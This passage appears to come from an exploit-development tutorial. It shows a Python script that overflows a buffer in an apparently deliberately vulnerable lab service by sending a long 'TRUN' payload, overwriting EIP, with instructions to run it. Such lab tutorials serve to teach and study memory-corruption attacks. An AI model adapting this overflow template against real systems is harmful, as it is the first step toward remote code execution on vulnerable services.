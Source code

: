We are going to be using a script to overwrite the `EIP` 

```python
#!/usr/bin/python
 
import sys, socket

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "B" * 4

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

- Save the script and grant executable permissions, then run it

![](https://i.imgur.com/frEb7Bg.gif)

What we did here is overwrite the `EIP` , 